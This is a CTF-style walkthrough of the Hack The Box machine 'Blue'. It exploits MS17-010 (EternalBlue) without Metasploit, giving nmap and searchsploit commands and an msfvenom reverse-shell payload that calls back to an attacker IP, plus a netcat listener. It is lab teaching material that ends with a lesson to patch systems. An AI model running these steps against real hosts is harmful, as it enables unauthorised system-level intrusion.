

# Blue without Metasploit

## Enumeration

### Run nmap scan:

#### **`nmap -T4 -A -p- 10.10.10.40`**

* -T4 flag is to speed the scan up a bit. T3 is the default if this is not specified.
* -A flag will enable Operating system, version detection, script scanning, and traceroute.
* -p- flag will scan for all 65,535 ports. By default, if this is not specified, nmap will scan the top 1000 ports.


#### Dissecting the Results:

* **Port 139:** Running Microsoft Windows netbios-ssn.
* **Port 445:** Running microsoft-ds.
* **Ports 135, 49152, 49153, 49154, 49155, 49156, and 49157:** Running msrpc.
* **Host script results:** guest logon appears possible for SMB.

This is looking similar to Legacy, and since we see SMB wide open, we should run the following command:

```text
nmap -v -script smb-vuln* 10.10.10.40
```



We see this target is vulnerable to MS17-010, or EternalBlue. After exploiting this vulnerability, we will automatically be NT Authority System and have the highest level of privileges.

We search for an exploit for MS17-010 by using searchsploit as follows:

```text
searchsploit ms17-010
```


We know the box is running Windows 7 and we are not using Metasploit, so we are left with options 42031.py and 42315.py. We can inspect either one by using `searchsploit -x <script>.py` where &lt;script&gt; is replaced with the name of the script. 

## Exploitation

We notice 42315.py most likely won't crash the target and is far more simpler to use. Let's clone the exploit into the working directory with:

```text
searchsploit -m 42315
```

In the source code, we discover the following:

* Download mysmb.py since the exploit will import it. Source code provides a link to download it and it must be renamed to mysmb.py. 
* Use msfvenom to generate a reverse shell payload.
* Modify exploit to include credentials as well as the reverse shell payload.

We can use wget with the link provided in the exploits source code, which would look like this:

```text
wget https://raw.githubusercontent.com/offensive-security/exploitdb-bin-sploits/master/bin-sploits/42315.py
```

 Simply rename it to mysmb.py and we can create our payload with:

```text
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.95 LPORT=7777 -f exe > eternal.exe
```

* **-p flag:** Payload type.
* **LHOST:** Listening IP address of the attacking machine.
* **LPORT:** Listening port of the attacking machine.
* **-f flag:** File format of payload.
* **-o flag:** Where to save the file as well as name the file.

This command will create our payload in an executable file named eternal.exe and it will create a reverse shell. Take note of the directory where the payload is located, as it will be needed when modifying the exploit as seen here:


Finally, we need to edit the "USERNAME" variable at the top of the exploit to guest:


It's time to set up a netcat listener:

```text
nc -nlvp 7777
```

Run the exploit:


We've successfully attained a shell with system privileges.

Grab user.txt and root.txt:


## Lessons Learned

Always ensure your systems are patched and up to date. If the MS17-010 security update had been applied, we would've needed to find a different method to exploit this machine.

